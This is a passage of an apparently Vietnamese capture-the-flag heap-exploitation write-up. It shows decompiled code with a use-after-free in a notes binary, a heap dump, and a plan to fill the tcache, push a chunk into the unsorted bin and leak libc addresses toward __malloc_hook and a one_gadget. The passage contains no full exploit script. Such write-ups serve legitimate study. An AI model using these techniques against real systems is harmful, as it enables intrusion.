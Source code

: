             ```c
            0x555555757250  0x0000000000000000      0x0000000000000021      ........!.......
            0x555555757260  0x6363636363636363      0x6363636363636363      cccccccccccccccc
            0x555555757270  0x6363636363636363      0x0000000000000063      ccccccccc.......
            0x555555757280  0x6262626262626262      0x6262626262626262      bbbbbbbbbbbbbbbb
            ```

- View():

    ```c
    int view()
    {
      __int64 v0; // rax
      int v2; // [rsp+Ch] [rbp-4h]

      v2 = read_index();
      v0 = *((_QWORD *)&notes + v2);
      if ( v0 && v2 != -1 )
        LODWORD(v0) = puts(*((const char **)&notes + v2));
      return v0;
    }
    ```

    - Nó sẽ in ra nội dung của index và không check index đó đã được free hay chưa ⇒ Leak libc ở đây.
- Exit():
    - Thoát chương trình.

# Exploit.

- Ta malloc 8 chunk với size 0x88 và free 7 chunk để fill tcache, sau đó khi free thì chunk tiếp theo sẽ nằm trong unsorted bin lúc này fd và bk sẽ trỏ đến vùng arena ta có thể dùng hàm show() để leak được địa chỉ và tính libc base, __malloc_hook, one_gadget để chuẩn bị cho phần tiếp theo.

    ```c
    pwndbg> bin
    tcachebins
    0x90 [  7]: 0x5555557575c0 —▸ 0x555555757530 —▸ 0x5555557574a0 —▸ 0x555555757410 —▸ 0x555555757380 —▸ 0x5555557572f0 —▸ 0x555555757260 ◂— 0x0
    fastbins
    0x20: 0x0
    0x30: 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x0
    0x80: 0x0
    unsortedbin
    all: 0x0
    smallbins
    empty
    largebins
    empty
    pwndbg>
    ```
